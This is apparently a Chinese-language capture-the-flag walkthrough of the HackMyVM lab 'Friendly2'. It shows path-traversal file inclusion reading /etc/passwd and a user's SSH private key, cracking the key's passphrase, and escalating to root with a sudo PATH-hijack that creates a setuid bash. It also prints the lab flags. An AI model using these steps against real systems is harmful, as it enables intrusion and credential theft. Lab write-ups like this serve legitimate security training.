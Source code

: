 # Friendly2

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Friendly2

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描 发现 http://192.168.5.40/tools/ 查看源码发现注释信息：

```
<!-- Redimensionar la imagen en check_if_exist.php?doc=keyboard.html -->
```

访问 http://192.168.5.40/tools/check_if_exist.php?doc=keyboard.html 这里可能存在文件包含，尝试访问：

```
http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```

ffuf 看看还能读取到哪些信息：

```
ffuf -t 100 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../FUZZ
```

不能读取 apache 的 access.log 文件，尝试读取 gh0st 中.ssh 私钥看看能否读取：

```
curl http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../../home/gh0st/.ssh/id_rsa
```

将读取的密钥保存，但是密钥有密码，使用 john 进行破解，得到私钥密码为 celtic , ssh 登陆用户 gh0st ， 得到了 user flag:

```
gh0st@friendly2:~$ cat user.txt
ab0366431e2d8ff563cf34272e3d14bd
```

sudo -l 发现 (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh 可以 SETENV PATH 路径劫持，同时发现脚本中都没有使用命令的绝对路径，劫持 tr 命令，进行利用：

```
cd /tmp
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > tr
chmod +x tr
sudo -u root PATH=/tmp:$PATH /opt/security.sh
./rootbash -p
```

寻找最终 root flag:

```
rootbash-5.1# cd ...
rootbash-5.1# ls -al
total 12
d-wx------  2 root root 4096 Apr 29  2023 .
drwxr-xr-x 19 root root 4096 Apr 27  2023 ..
-r--------  1 root root  100 Apr 29  2023 ebbg.txt
rootbash-5.1# cat ebbg.txt
It's codified, look the cipher:

98199n723q0s44s6rs39r33685q8pnoq

Hint: numbers are not codified
```

提示有编码，查看 /opt/security.sh 中的内容使用的是最字符进行 rot13 转换，使用 cyberchef 进行转换得到最终 flag : 98199a723d0f44f6ef39e33685d8cabd
